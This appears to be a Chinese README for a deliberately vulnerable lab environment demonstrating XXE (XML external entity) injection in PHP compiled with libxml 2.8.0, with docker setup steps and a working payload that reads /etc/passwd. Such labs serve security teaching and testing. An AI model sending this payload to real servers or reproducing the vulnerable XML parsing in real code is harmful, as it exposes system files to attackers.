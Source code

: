 # PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.1
- Apache 2 稳定版
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：

![](1.png)

更多高级利用方法，请自行探索。